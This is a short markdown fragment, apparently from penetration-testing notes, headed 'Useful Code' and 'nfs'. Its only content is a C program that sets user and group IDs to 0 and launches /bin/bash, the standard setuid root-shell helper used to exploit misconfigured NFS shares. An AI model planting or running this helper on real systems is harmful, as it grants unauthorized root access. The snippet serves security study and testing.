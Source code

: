 







## Useful Code

### nfs
```c

int main(){
  setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}

```





